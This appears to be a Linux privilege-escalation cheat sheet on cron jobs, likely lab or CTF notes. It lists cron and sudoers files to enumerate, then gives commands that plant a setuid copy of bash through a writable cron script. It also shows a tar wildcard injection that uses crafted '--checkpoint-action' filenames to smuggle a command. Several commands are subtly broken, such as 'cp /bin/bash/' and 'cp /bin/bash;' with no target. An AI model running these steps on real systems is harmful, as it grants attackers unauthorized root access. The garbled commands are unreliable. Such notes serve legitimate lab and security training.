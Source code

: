 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   
### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
          
          
          
          
   ## overwrite.sh Exploit
   
         echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
         chmod +x /home/user/overwrite.sh
         /tmp/bash -p




   ## compress.sh
   
      cat <PATH=compress.sh>
      
   ## OUTPUT
   
          #!/bin/sh
          cd /home/user
          tar czf /tmp/backup.tar.gz *
          
   ## Exploit wildcards
   
        echo 'cp /bin/bash/ /tmp/bash; chmod +s /tmp/bash' > asif.sh
        chmod 777 asif.sh
        touch /home/user/--checkpoint=1
        touch /home/user/--checkpoint-action=exec=sh\asif.sh
        /tmp//bash -p
        
        
        
        
        
   ## Change File permissions And Exploit
   
       locate overwrite.sh
       echo 'cp /bin/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
       /tmp/bash -p
   
   
   
   
     
